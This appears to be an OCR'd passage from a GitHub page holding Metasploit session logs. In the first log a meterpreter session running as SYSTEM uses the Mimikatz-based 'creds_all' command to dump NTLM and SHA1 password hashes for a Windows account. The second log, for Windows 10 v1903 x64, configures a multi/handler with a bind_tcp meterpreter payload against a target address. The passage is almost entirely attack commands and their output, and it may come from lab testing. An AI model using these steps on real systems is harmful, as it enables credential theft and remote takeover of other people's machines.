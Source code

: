 ```
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
test      DESKTOP-PL99PE8  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1
test      .                0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-PL99PE8$  WORKGROUP        (null)
test              DESKTOP-PL99PE8  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-pl99pe8$  WORKGROUP        (null)
test              DESKTOP-PL99PE8  (null)


meterpreter >
```

### Windows 10 v1903 x64
```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set RHOST 172.22.189.98
RHOST => 172.22.189.98
msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.22.189.98    no        The target address


```